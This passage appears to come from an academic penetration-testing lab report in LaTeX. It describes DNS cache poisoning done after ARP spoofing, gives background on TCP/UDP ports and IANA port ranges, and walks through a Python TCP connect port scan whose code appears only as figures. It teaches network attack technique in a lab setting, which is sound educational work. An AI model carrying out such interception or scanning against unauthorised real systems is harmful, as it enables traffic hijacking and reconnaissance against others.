Before performing the attack, we make sure to execute the ARP spoofing attack shown previously, because it is important that the attacker is the man-in-the-middle. Afterwards, we proceed to execute the script. The output of our script is shown in Figure \ref{DNS2}. Whenever a DNS request for the specified remote host arrives from the victim, the response packet is modified and sent to the target.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/dns2.png}
    \caption{DNS Cache Poisoning - Code Execution.\label{DNS2}}
\end{figure}

As a result, the victim is redirected to the attacker, even though the same remote host was requested. This is shown in Figure \ref{DNS3}, where the victim tries to ping google.com but the responses are from a different source IP address, which is the attacker's local IP.

\begin{figure}[H]
\centering

\includegraphics[width=1.0\textwidth]{Resources/Attacks/Pictures/dns3.png}
    \caption{DNS Cache Poisoning - Trying to ping remote host during the attack.\label{DNS3}}
\end{figure}

\section{Port Scanning}

\subsection{TCP/IP Ports}

A typical host on a TCP/IP internetwork has many different software application processes running concurrently, each of them generating data to send, to either TCP or UDP \cite{pyles2016}. To demultiplex a sequence of IP datagrams and properly associate each one of them with a process, both TCP and UDP packet headers contain two addressing fields. The \textit{Source Port} and the \textit{Destination Port}. These port numbers are 16 bits in length, taking values from 0 to 65,535. They identify the originating process on the source machine and the destination process on the destination machine, respectively \cite{charles2005}.

Before transmission, an application specifies the source and destination port it wishes to use for the communication. These are are encoded into the TCP or UDP header, depending on the transport layer protocol used \cite{charles2005}.

There is a certain amount of port numbers reserved for particular services, like File Transfer Protocol (FTP), Simple Mail Transfer Protocol (SMTP), Hypertext Transfer Protocol (HTTP) and many other. The reason for this is for identifying particular processes on a server and ease the communication between the two services \cite{pyles2016}.
Assignment and coordination of port number are managed by the Internet Assigned Numbers Authority (IANA). The organization has divided the number of ports into three ranges, as shown in Table \ref{Ports} \cite{charles2005}.

\begin{table}[H]
\label{Ports}
\centering
\begin{tabular}{| c | c | m{10em} |}
\multicolumn{3}{c}{\textbf{\large{Port Number Ranges}}} \\
\hline
\hline
\small{\textbf{Port Range Name}} & \small{\textbf{Port Number Range}} & \small{\textbf{Description}} \\
\hline

\small{Well-Known Port Numbers} & \small{0 to 1,023} & \small{Managed by IANA and reserved for only the most universal TCP/IP applications and protocols, using the TCP/IP RFC process.\footnote{Request For Comments (RFC) is used for consensus-based standardization, managed by the Internet Engineering Task Force (IETF). Before a proposal will be considered for the Internet standardization process, it must be published as an Internet Draft (ID). After passing through the statuses of \textit{Proposed Standard} and \textit{Draft Standard}, a draft becomes an \textit{Internet Standard} only if the IETF community and the IETF itself believe the proposal is mature enough and widely accepted. Lastly, an RFC is published, making the proposal a universal standard and that cannot be changed \cite{charles2005}. }} \\ 
\hline
\small{Registered Port Numbers} & \small{1,024 to 49,151} & \small{Usually used by applications that need to use TCP/IP but are not specified in RFCs.} \\ 
\hline
\small{Private/Dynamic Port Numbers} & \small{49,152 to 65,535} & \small{Neither reserved nor maintained by IANA. Can be used for any purpose.} \\
\hline 
 
\end{tabular}
\caption{TCP and UDP Port Number Ranges \cite{charles2005}}
\end{table}

\subsection{Port Scanning}

Port scanning is the process of scanning a host to determine which ports are accessible and which are in use. As mentioned before, ports can be either be TCP or UDP ports, depending on which the application is running on. Scans are available in many types, including \cite{whitaker2006}\cite{weidman2014}:

\begin{itemize}
    \item TCP Connect Scan
    \item UDP Scan
    \item SYN
    \item NULL
    \item FIN
    \item ACK
    \item Xmas Scan
    \item Dumb Scan
    \item Reverse Ident
    
\end{itemize}
A pre-requirement to perform a port scan is the IP address of the target host.

In the following lab, a TCP connect scan will be performed using the Python script shown in Figures \ref{PortCode1} and \ref{PortCode2}

\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/PortScanner1.png}
    \caption{Port Scanning - Python Code part 1.\label{PortCode1}}
\end{figure}
\begin{figure}[H]
\centering

\includegraphics[width=1.3\textwidth]{Resources/Attacks/Code/PortScanner2.png}
    \caption{Port Scanning - Python Code part 2.\label{PortCode2}}
\end{figure}

Below is the result after running the script against the victim machine. We can see that the target has 5 open ports in between port numbers 1 to 600. 

\begin{figure}[H]
\centering

\includegraphics[width=1.1\textwidth]{Resources/Attacks/Pictures/PortScan.PNG}
    \caption{Port Scanning - Target's Open Ports.\label{PortScan1}}
\end{figure}


\subsubsection{Collecting and presenting the results}

After executing any attacks, the tester proceeds to gather all the information found during the test. Any evidence will be very useful and important, in order to properly evaluate any risk and document the test and its outcome in detail. A strong report will play a significant role in portraying possible outcome of exploitation and help executive's make more clear decisions. Reporting is a fundamental component of a test, presented in detail in the following chapter, to properly complete and conclude a test.
